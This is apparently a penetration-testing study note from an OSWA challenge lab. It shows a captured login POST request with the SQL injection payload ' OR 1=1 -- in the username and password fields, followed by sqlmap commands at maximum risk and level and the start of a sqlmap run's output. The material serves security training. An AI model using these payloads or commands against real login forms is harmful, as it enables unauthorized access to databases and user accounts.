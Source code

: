 ```http

Connection: keep-alive

------WebKitFormBoundarygoYcqGSiBvm5AX3T
Content-Disposition: form-data; name="_token"

27hoFiHGwgBmFVxPb9kfeImpIdo4HVzaxzxtDsZ5
------WebKitFormBoundarygoYcqGSiBvm5AX3T
Content-Disposition: form-data; name="username"

' OR 1=1 --
------WebKitFormBoundarygoYcqGSiBvm5AX3T
Content-Disposition: form-data; name="password"

' OR 1=1 --
------WebKitFormBoundarygoYcqGSiBvm5AX3T
Content-Disposition: form-data; name="dType"

loginRequest
------WebKitFormBoundarygoYcqGSiBvm5AX3T--
```

if unsure what field to test against - typically takes a very long time, not recommended - faster to test each individual parameter
```sql
sqlmap -r auth_postreq.txt --batch --risk=3 --level=5
```
if want to test a specific parameter, in this case testing the `username` parameter
```sql
sqlmap -r request.txt -p username --batch --risk=3 --level=5 -- flush-session
```
putting it in action
- here we find `boolean based blind injection` & `time based ` & `error based`
```sql
┌──(root💀gobots)-[10Dec2024 04:17:15]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]                                                  
└─# sqlmap -r post_req.txt -p username --batch --risk=3 --level=3 --flush-session                                                                                                                           
        ___                                                                                                                              
       __H__                                                                                                                            
 ___ ___[)]_____ ___ ___  {1.8.5#stable}                                                                                              
|_ -| . [']     | .'| . |                                                                                                           
|___|_  [.]_|_|_|__,|  _|                                                                                                                 
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers as
sume no liability and are not responsible for any misuse or damage caused by this program                                                                                                                  
[*] starting @ 04:17:30 /2024-12-10/                                                                                                                                                                   
[04:17:30] [INFO] parsing HTTP request from 'post_req.txt'                                                                                                                                                  
Multipart-like data found in POST body. Do you want to process it? [Y/n/q] Y                                                              
```